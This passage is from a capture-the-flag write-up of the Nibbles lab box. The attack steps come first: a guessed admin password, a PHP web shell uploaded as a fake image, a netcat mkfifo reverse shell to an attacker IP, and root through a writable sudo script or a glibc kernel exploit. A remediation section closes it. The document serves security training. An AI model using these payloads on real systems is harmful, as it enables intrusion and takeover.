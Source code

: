 7. **Credential Guessing**: Through the proxy, manually guess password "nibbles" for "admin" (possibly default or lucky guess based on app name). Successfully logs in.

8. **Plugin Activation and Shell Upload**: In admin panel, enable "My Image" plugin. Upload a malicious PHP shell (simple `system($_REQUEST['cmd'])` script with GIF magic bytes prefixed) disguised as an image via the plugin upload form.

9. **Shell Access and Command Execution**: Access the uploaded shell at `/nibbleblog/content/private/plugins/my_image/image.php?cmd=whoami`. Use Burp Repeater to send commands (e.g., `whoami` confirms execution).

10. **Reverse Shell Upgrade**: In Repeater, change to POST method and inject a reverse shell payload (Netcat: `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [ATTACKER-IP] 9001 >/tmp/f`). Catch the shell on attacker's Netcat listener. Upgrade to interactive shell with Python TTY (`python3 -c 'import pty; pty.spawn("/bin/bash")'`), then `stty raw -echo` for better functionality.

11. **User Privilege Access**: In the shell, navigate to `/home/nibbler/` and read `user.txt` (32-character MD5 hash).

12. **Privilege Escalation Check**: Run `sudo -l`, revealing user "nibbler" can run `/home/nibbler/personal/stuff/monitor.sh` as root without password.

13. **Sudo Exploitation**: Create the directory path (`mkdir -p /home/nibbler/personal/stuff`), write a malicious `monitor.sh` (`#!/bin/bash\nbash`), make it executable (`chmod +x monitor.sh`), and execute `sudo /home/nibbler/personal/stuff/monitor.sh` to gain root shell.

14. **Alternative Root via Kernel Exploit**: Use Linux Exploit Suggester (transferred via HTTP server) to identify vulnerabilities. Detects glibc 2.23-0ubuntu9 on Ubuntu 16.04.3. Download and compile "RationalLove" exploit (glibc getcwd POC from Exploit-DB). Execute it to gain root shell.

15. **Root Access Confirmation**: As root, read `/root/root.txt` (32-character MD5 hash).

## Security Gaps and Remediation

### Web Server (Apache 2.4.18 on Ubuntu Xenial)

- **Information Disclosure via HTML Comments**: The root page contains a comment revealing the /nibbleblog/ directory, aiding path discovery.
  - **Fix**: Source code fix - Remove or obfuscate sensitive comments in the index.html or equivalent file.

- **Exposed Server Version in HTTP Headers**: Burp Suite interception reveals Apache version and OS details, allowing targeted exploit research.
  - **Fix**: Configuration fix - Edit apache2.conf or httpd.conf to set `ServerTokens Prod` and `ServerSignature Off` to minimize banner information.

- **Open Directory Listing in /nibbleblog/content/private/**: Allows access to users.xml, exposing usernames and potential login attempt counters.
  - **Fix**: Configuration fix - Add `.htaccess` with `Options -Indexes` or configure Apache's Directory directive to deny listings; alternatively, source code fix in CMS to restrict directory permissions programmatically.

### Content Management System (Nibbleblog 4.0.3)

- **Outdated Software Version**: Running an end-of-life version (last release 2014) vulnerable to known exploits like CVE-2015-6967 (authenticated file upload).
  - **Fix**: Source code fix - Update to a patched or maintained fork if available, or migrate to a secure CMS; if custom, patch the upload handling in plugins/my_image/upload.php to validate file types and extensions strictly.
